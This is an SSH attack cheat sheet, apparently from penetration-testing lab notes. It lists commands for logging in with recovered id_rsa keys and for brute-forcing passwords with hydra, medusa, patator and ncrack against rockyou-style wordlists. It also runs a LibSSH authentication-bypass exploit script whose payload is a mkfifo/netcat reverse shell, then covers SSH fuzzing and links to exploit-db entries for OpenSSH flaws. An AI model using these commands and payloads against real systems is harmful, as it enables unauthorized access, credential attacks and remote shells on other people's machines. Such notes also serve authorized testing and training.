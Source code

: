 ```

SSH no matching key exchange method found:

ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 bob@10.11.1.136

Server requiring ssh-rsa,ssh-dss:
	ssh -p 22 patrick@192.168.216.39 -oHostKeyAlgorithms=+ssh-dss 
Error message: Unable to negotiate with 192.168.216.39 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss


Force Auth Method:

$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

SSH Login with id_rsa file:

$ ssh -i id_rsa fox@192.168.152.126

SSH via Git:

$ GIT_SSH_COMMAND='ssh -i id_rsa -o IdentitiesOnly=yes' git clone ssh://git@192.168.212.125:43022/git-server (non-standard port)

$ GIT_SSH_COMMAND='ssh -i ~/Proving_Grounds/Hunit/id_rsa -o IdentitiesOnly=yes' git push (Done from within the git repo)

BruteForce:

patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access
Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
Reverse
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.1.111 80 >/tmp/f"

SSH FUZZ
https://dl.packetstormsecurity.net/fuzzer/sshfuzz.txt

cpan Net::SSH2
./sshfuzz.pl -H 10.10.1.111 -P 22 -u user -p user

use auxiliary/fuzzers/ssh/ssh_version_2

SSH-AUDIT
https://github.com/arthepsy/ssh-audit

• https://www.exploit-db.com/exploits/18557 ~ Sysax 5.53 – SSH ‘Username’ Remote Buffer Overflow
• https://www.exploit-db.com/exploits/45001 ~ OpenSSH < 6.6 SFTP – Command Execution
• https://www.exploit-db.com/exploits/45233 ~ OpenSSH 2.3 < 7.7 – Username Enumeration
• https://www.exploit-db.com/exploits/46516 ~ OpenSSH SCP Client – Write Arbitrary Files

http://www.vegardno.net/2017/03/fuzzing-openssh-daemon-using-afl.html


```